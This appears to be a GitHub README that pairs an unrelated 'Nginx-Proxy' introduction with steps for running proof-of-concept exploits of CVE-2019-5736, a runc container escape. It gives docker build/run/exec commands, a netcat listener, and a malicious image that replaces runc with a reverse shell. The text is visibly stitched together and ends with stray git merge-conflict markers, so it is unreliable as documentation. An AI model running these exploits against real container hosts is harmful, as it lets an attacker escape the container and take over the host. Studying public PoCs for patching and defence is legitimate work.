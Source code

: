 # Nginx-Proxy

	## Why proxy ?
---
A reverse proxy intercepts incoming requests and directs them to the appropriate server. Not only does this speed up performance, it also strengthens server security.

Clone the repository:
```sh
$ git clone git@github.com:BBRathnayaka/RunC-CVE-2019-5736.git
```

### Exec POC
Overwrites runc with a simple program that prints a string.

Running the exec POC:
```sh
$ docker build -t cve-2019-5736:exec_POC ./RunC-CVE-2019-5736/exec_POC
$ docker run -d --rm --name poc_ctr cve-2019-5736:exec_POC
$ docker exec poc_ctr bash
```
### Malicious Image POC
Overwrites runc with a simple reverse shell bash script that connects to localhost:2345.

Listen for the reverse shell:
```sh
$ nc -nvlp 2345
```

From a different shell, run the malicious image POC:
```sh
$ docker build -t cve-2019-5736:malicious_image_POC ./RunC-CVE-2019-5736/malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```
#### Reference
```
See [Twistlock Labs](https://www.twistlock.com/labs-blog/breaking-docker-via-runc-explaining-cve-2019-5736/ "Explaining CVE-2019-5763") for an explanation of CVE-2019-5736 and the POCs.

The malicious image POC is heavily based on [q3k’s POC](https://github.com/q3k/cve-2019-5736-poc), so all credit goes to him.
```


=======
>>>>>>> 6336d8e5c8c9804aaeb076ad1fbea1975a3cae6f
